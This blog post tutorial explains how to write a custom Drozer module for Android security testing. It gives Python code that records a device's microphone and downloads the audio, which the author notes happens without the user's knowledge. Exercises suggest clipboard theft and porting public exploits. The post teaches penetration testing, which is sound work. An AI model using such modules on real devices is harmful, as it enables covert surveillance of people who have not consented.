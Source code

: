 ```yaml
---
title: "Writing Drozer Modules"
published: 2018-05-13T17:10:13+05:30
status: "published"
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.f-secure.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
> installed application can do, such as making use of Android's Inter-Process Communication (IPC) mechanism and
> interact with the underlying operating system.

Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.

Drozer modules are inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/FSecureLABS/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository, which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/FSecureLABS/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using the Drozer console using the following command.

```text
dz> module repository create custom
Initialised repository at custom.
```

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/FSecureLABS/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.

```python
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
```

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define the name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array that contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.

```text
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author: "Yash Agarwal"
date: "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
```

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/FSecureLABS/drozer/wiki/Using-Reflection).

The `execute()` function is given below.

```python
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
```

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/FSecureLABS/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission that our agent app had. It allowed our module to record without _user consent_ (actually, the user gave her consent unknowingly while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in the comments section.)

Thanks for reading. Cheers :)
